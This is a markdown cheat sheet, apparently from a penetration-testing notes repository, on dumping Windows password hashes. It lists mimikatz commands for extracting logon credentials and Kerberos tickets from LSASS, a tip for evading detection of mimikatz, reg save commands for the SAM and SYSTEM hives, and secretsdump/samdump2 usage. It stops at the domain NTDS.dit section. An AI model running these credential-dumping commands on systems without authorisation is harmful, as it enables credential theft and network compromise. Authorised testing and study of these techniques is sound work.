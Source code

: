 # Dump Password Hashes

Since implementation of Kerberos authentication, password hashes must be stored somewhere in memory (in order to renew TGT requests). In modern Windows versions hashes are stored in the LSASS memory space.

## Mimikatz

We can use mimikatz (from an administrative console) to gain access to the hashes stored on the target.

**Note:** In order to avoid mimikatz as standalone application, we can try to execute it directly from memory or built-in tools like Task Manager to dump the entire LSASS process memory and extract the data from another machine.

### Users Logged On Hashes

In order to dump hashes for all users logged on to the current workstation or server (including RDP connections), we execute:

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

### Users Logged On TGT & TGS Tickets

We can use mimikatz to exract TGT & TGS Kerberos tickets to exploit it's authentication mechanism.

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets
```

_____

## Obtaining Windows SAM & SYSTEM files (local)

> If we have access to SAM and SYSTEM files we can use impacket-secreptsdump to extract the user hashes:

Files are located at: C:\Windows\System32\config\, obtain them with:

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Now execute use one of the following techniques in order to extract the hashes:

```bash
impacket-secretsdump -sam $SAMFILE -system $SYSTEMFILE local
```

```bash
samdump2 system sam
```
_____

## Obtaining AD hashes (domain)

In a domain environment, hashes for all account in Active Directory are stoed on the Domain Controller in a file called **"NTDS.dit"**.
